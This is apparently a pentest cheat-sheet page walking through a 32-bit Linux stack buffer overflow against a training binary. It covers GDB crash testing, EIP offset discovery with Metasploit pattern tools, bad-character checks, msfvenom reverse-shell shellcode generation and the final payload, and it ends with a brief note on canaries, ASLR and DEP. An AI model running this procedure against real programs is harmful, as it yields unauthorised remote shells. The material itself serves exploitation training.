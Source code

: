 # Buffer Overflow

{% hint style="info" %}
Buffer overflow is an **anomaly** that occurs when **software writing data to a buffer overflows the buffer’s capacity**, resulting in **adjacent memory locations being overwritten**.

_In other words, too much information is being passed into a container that does not have enough space, and that information ends up replacing data in adjacent containers._

Buffer overflows can be exploited by attackers with a goal of modifying a computer’s memory in order to undermine or take control of program execution.
{% endhint %}

![BOF](<../../.gitbook/assets/image (63).png>)

### Check file type

```bash
file bow32 | tr "," "\n"
```

***

### How to attack ?

![](<../../.gitbook/assets/image (39).png>)

#### 1 : Testing the Crash

![](<../../.gitbook/assets/image (114).png>)

```bash
#Python command to BOF
run $(python -c "print '\x55' * 1200")

#To confirm the exact number of Bytes needed 
info registers eip
```

#### 2 : Finding the EIP Offset

![](<../../.gitbook/assets/image (13).png>)

```bash
# Generate a more precise pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt

# Run the pattern using python
run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

# Locate the exact memory address where the BOF occurs
info registers eip

# Use the memory address to calculate the offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

![](<../../.gitbook/assets/image (146).png>)

#### 3 : Finding Shellcode Space : General

```bash
# Calculate the required padding for the payload
run $(python -c "print '\x55' * 1036 + '\x66' * 4")
```

#### 4 : First Stage Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

#### 5 : Finding Shellcode Space : Garbage + NOPs + Payload + EIP

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)

```bash
    # Pre-final padding (Garbage - NOPs - Payload - EIP)
    Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
    NOPs = "\x90" * 100
    Shellcode = "\x44" * 150
    EIP = "\x66" * 4'
```

```bash
# Pre-final BOF Exploit
# Must check for Bad Chars before executing
run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

![](<../../.gitbook/assets/image (116).png>)

#### 6 : Testing for Bad Chars

⚠️ **FACULTATIVE**, BUT... MUST CHECK WHEN USING **ONLINE SHELLCODES** ⚠️

```bash
    # Most Bad Chars
    \x00 - Null Byte
    \x0A - Line Feed
    \x0D - Carriage Return
    \xFF - Form Feed
    \x09
    \x20
```

### How to find bad Chars

```bash
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

```bash
    ## Padding to check Bad Chars
    Buffer = "\x55" * (1040 - 256 - 4) = 780
    CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
    EIP = "\x66" * 4
```

```bash
# Prep for testing Bad Chars
disas main
break bowfunc 
```

```bash
# Run Python script
run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

```bash
# Check for memory in break for \x00 (Must follow the $CHAR pattern)
x/2000xb $esp+500
# Check image below
```

![](<../../.gitbook/assets/image (18).png>)

#### 1 : Final Stage Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

#### 2 : Finding JMP EIP

```bash
   # Enter the payload
   # Next focus on the placement of EIP (return address)
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
   NOPs = "\x90" * 124
   Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
   EIP = "\x66" * 4'
```

```bash
# Python command to locate EIP
run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

![](<../../.gitbook/assets/image (9) (1).png>)

⚡ **Choose an address to which we refer the EIP and which reads and executes one byte after the other starting at this address.**

![](<../../.gitbook/assets/image (40).png>)

#### 🚨 **Execute the Payload | Rain Hell on 'em** 🚨

```bash
   # 🚨 NOTE!! Payload must be run outside GDB, Duhh!! 🚨
   # Final Padding
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
   NOPs = "\x90" * 124
   Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
   EIP = "\x4c\xd6\xff\xff"
```

### GDB Syntax

```bash
set disassembly-flavor intel

disassemble main

disas bowfunc

info registers 

info registers eip
i r $eip
```

![](<../../.gitbook/assets/image (36).png>)

![](<../../.gitbook/assets/image (81).png>)

![](<../../.gitbook/assets/image (74).png>)

### How to protect ?

* **Canaries** The canaries are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.
* **Address Space Layout Randomization (ASLR)** Address Space Layout Randomization (ASLR) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.
* **Data Execution Prevention (DEP)** DEP is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.

